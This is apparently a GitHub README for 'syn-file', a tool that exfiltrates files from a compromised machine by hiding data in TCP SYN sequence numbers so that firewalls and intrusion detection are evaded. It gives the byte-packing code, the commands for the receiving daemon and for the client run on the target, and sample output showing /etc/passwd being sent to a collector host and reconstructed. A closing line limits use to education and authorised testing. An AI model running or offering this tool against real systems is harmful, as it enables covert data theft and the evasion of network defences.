 # syn-file

Exfiltrate data from a compromised target using covert channels.

##Cryptography: covert channels

**syn-file** is a software that allows data exfiltration using TCP SYN sequency number packets.
In that way it is possible to bypass firewalls or alert IDS as no TCP connection is ever opened.

To be faster exfiliating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

##Background

There are some tools to deploy covert channels using ICMP protocol padding the content in the payload section... suspicious!
But I have not seen any tool to deploy it using TCP seq numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


server
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f file.bin
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN=1] [SEQ #= 3a32353a]
#    2 [SYN=1] [SEQ #= 32353a42]
#    3 [SYN=1] [SEQ #= 61746368]
#    4 [SYN=1] [SEQ #= 206a6f62]
#    5 [SYN=1] [SEQ #= 73206461]
#    6 [SYN=1] [SEQ #= 656d6f6e]
#    7 [SYN=1] [SEQ #= 3a2f7661]
#    8 [SYN=1] [SEQ #= 722f7370]
#    9 [SYN=1] [SEQ #= 6f6f6c2f]
#   10 [SYN=1] [SEQ #= 61746a6f]
...
```

And "passwd" is:
```
# cat passwd 
:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
```



client
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ nr: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ nr: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ nr: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ nr: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ nr: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ nr: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ nr: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ nr: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ nr: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ nr: 0x6f6f6c2f] [Wrote 74 bytes]
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

